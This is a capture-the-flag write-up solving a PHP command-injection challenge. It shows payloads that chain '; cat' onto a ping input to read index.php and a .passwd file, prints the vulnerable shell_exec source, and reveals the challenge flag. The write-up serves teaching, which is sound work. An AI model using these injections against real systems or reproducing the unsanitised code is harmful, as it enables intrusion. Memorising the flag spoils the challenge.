 # PHP - Command injection

> Find a vulnerability in this service and exploit it. The flag is on the index.php file.

<figure><img src="../../.gitbook/assets/1 46.png" alt=""><figcaption></figcaption></figure>

Let's input `127.0.0.1` as the input field is suggesting.

<figure><img src="../../.gitbook/assets/2 42.png" alt=""><figcaption></figcaption></figure>

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input

```
127.0.0.1 ; cat index.php
```

<figure><img src="../../.gitbook/assets/3 32.png" alt=""><figcaption></figcaption></figure>

Looks like our input was processed properly. Let's check the source code.

<figure><img src="../../.gitbook/assets/4 22.png" alt=""><figcaption></figcaption></figure>

The source code reveals an interesting piece of code.

## PHP code

```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```

* The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($\_POST\["ip"]).
* The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable.
* Let's modify our input to `cat` the `.passwd` file.

### User Input

```
127.0.0.1 ; cat .passwd
```

<figure><img src="../../.gitbook/assets/5 13.png" alt=""><figcaption></figcaption></figure>

## Flag

```
S3rv1ceP1n9Sup3rS3cure
```

